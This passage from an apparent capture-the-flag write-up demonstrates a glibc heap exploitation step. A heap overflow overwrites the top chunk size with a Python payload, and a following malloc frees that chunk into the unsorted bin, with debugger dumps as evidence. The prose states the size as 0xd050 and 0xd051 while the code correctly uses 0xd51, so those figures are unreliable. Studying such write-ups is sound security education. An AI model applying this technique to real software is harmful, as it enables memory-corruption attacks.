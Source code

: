 So we will change the top chunk size with the **Heap Overflow** bug. Remember that our top chunk is aligned with 0x1000 so we need to calculate the top chunk size first:

```
0x55fad6324000 - 0x55fad63232b0 = 0xd050
```

So overwriting `0xd051` (with `PREV_INUSE` bit) to top chunk size and malloc `0x1000` byte will free our top chunk. Code:

```python
# Change topchunk size
payload = b'\x00'*0x10    # chunk data
payload += b'\x00'*0x8    # Prevsize
payload += p64(0xd51)
gets(0, payload)

# Malloc 0x1000 bytes
malloc(1, 0x1000)
```

After overwrite top chunk size:

```
gef➤  x/10xg 0x0000564641e852a0-0x10
0x564641e85290: 0x0000000000000000  0x0000000000000021
0x564641e852a0: 0x0000000000000000  0x0000000000000000
0x564641e852b0: 0x0000000000000000  0x0000000000000d51
0x564641e852c0: 0x0000000000000000  0x0000000000000000
0x564641e852d0: 0x0000000000000000  0x0000000000000000
```

After `malloc(0x1000)`:

```
gef➤  x/10xg 0x0000564641e852a0-0x10
0x564641e85290: 0x0000000000000000  0x0000000000000021
0x564641e852a0: 0x0000000000000000  0x0000000000000000
0x564641e852b0: 0x0000000000000000  0x0000000000000d31
0x564641e852c0: 0x00007fb00a6b0be0  0x00007fb00a6b0be0
0x564641e852d0: 0x0000000000000000  0x0000000000000000

gef➤  heap bin
────────────────────────────────── Tcachebins for thread 1 ──────────────────────────────────
All tcachebins are empty
───────────────────────────── Fastbins for arena 0x7fb00a6b0b80 ─────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
──────────────────────────── Unsorted Bin for arena 'main_arena' ────────────────────────────
[+] unsorted_bins[0]: fw=0x564641e852b0, bk=0x564641e852b0
 →   Chunk(addr=0x564641e852c0, size=0xd30, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
───────────────────────────── Small Bins for arena 'main_arena' ─────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
───────────────────────────── Large Bins for arena 'main_arena' ─────────────────────────────
[+] Found 0 chunks in 0 large non-empty bins.

```
